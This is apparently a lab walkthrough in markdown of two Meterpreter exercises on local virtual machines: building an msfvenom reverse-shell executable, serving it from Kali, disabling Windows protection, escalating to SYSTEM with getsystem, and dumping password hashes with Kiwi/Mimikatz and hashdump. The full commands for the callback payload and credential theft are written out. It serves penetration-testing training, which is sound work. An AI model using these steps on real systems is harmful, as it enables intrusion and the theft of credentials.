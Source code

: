 # Meterpreter

## Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

#### Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

#### Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

#### Solutions 
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: 

![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)


## Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database

#### References
- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)

#### Tasks
- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
- Use the "getuid" command to display the current user's privileges
- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database


#### Solutions
1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
4. Download the reverse shell in the Windows 10 VM and run it as an administrator
5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
7. To load Mimikatz in Meterpreter session, use `load kiwi`
8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
9. To dump password hashes from the SAM database, use `hashdump`

Screenshot of how Kiwi is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)

Screenshot of how hashdump is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/5ded7cc0-7b98-4ad2-8e50-a35ff5841958)



